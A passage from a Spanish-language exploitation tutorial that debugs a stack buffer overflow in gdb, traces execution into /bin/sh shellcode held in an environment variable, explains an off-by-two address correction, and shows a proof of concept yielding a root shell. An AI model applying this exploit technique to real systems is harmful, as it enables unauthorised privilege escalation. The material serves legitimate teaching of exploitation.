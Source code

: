     $ gdb -q vuln
    Reading symbols from vuln...(no debugging symbols found)...done.
    (gdb) br *imprimir +26
    Breakpoint 1 at 0x8048425
    (gdb) set exec-wrapper ./x
    (gdb) run
    Starting program: /home/arget/vuln 
    Usando direccion: [ 0xffffdfd8 ]
    Payload: 41414141414141414141414141414141414141414141d8dfffff

Breakpoint 1, 0x08048425 in imprimir ()  
(gdb) display /i $pc  
1: x/i $pc  
\=> 0x8048425 <imprimir+26>: ret  
(gdb) nexti  
0xffffdfd8 in ?? ()  
1: x/i $pc  
\=> 0xffffdfd8: jae 0xffffe042  
(gdb) x $eip  
0xffffdfd8: 0x2f686873  
(gdb)  
0xffffdfdc: 0x896e6962  
(gdb)  
0xffffdfe0: 0x895350e3  
(gdb)  
0xffffdfe4: 0xb0d231e1  
(gdb)  
0xffffdfe8: 0x4680cd0b  
(gdb)  
0xffffdfec: 0x55555555  
(gdb)  
0xffffdff0: 0x762f2e00  
(gdb)  
0xffffdff4: 0x006e6c75  
(gdb)  
0xffffdff8: 0x00000000  
(gdb)  
0xffffdffc: 0x00000000  
(gdb)  
0xffffe000: Cannot access memory at address 0xffffe000 // Dragones y monstruos del averno

Ahora encontramos `46 55 55 55 55 00` tras el shellcode. Teniendo en cuenta que las direcciones del stack de un proceso de 64 bits (sin ASLR) son de la forma `0x55555555????`, comprobamos que ahí, se encuentra una dirección parcial. El byte nulo que detuvo el _memory leak_ no sabemos a qué se corresponde pues se encontraba justo antes de la dirección que se ha filtrado. Dirección a la que, además, le falta un byte, ya que ha sido sobrescrito por nuestro shellcode, seguramente se trata de una dirección residual que se encontraba en el stack, dejada ahí por una función anterior.

En fin, una vez demostrado el por qué se requiere restar en uno la dirección, debido al byte terminador del nombre del programa, y restar otro byte más, debido al byte terminador de la variable del entorno, procedemos a demostrar el PoC _correcto_.

    $ gcc x.c -o x
    $ ./x
    Usando direccion: [ 0xffffdfd7 ]
    Payload: 41414141414141414141414141414141414141414141d7dfffff
    # whoami
    root
    # 
